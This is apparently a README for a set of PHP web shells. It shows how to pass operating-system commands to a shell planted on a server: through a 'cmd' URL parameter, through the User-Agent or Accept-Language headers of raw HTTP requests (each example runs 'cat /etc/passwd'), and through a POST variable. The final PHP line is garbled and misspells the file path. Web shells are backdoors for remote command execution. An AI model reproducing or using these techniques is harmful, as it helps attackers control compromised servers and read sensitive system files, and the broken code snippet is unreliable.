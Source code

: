 
# PHP shells

**(1) PARAMETER_SHELL**

**SHELL COMMANDS USING PARAMETER**

https://demo.com/PARAMETER_SHELL.php?cmd=ls

****

**(2) HTTP_USER_AGENT_SHELL**
  
**SET SHELL COMMANDS IN USER-AGENT HEADER**
  
GET /demo/shell.php HTTP/1.1
Host: 192.168.5.25
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml
Upgrade-Insecure-Requests: 1
**User-Agent: cat /etc/passwd**
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-GB,en-U 

****

**(3) HTTP_ACCEPT_LANGUAGE_SHELL**
 
**SET SHELL COMMANDS IN ACCEPT_LANGUAGE HEADER**

GET /demo/shell.php HTTP/1.1
Host: 192.168.5.25
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112.                        
Accept-Encoding: gzip.                      
**Accept-Language: cat /etc/passwd**

****
  

**(4) POST WITH VARIABLE**
  
**JUST ADD YOUR COMMAND IN VARIABLE B**
  
$b = $_POST['cat /etc/password'];
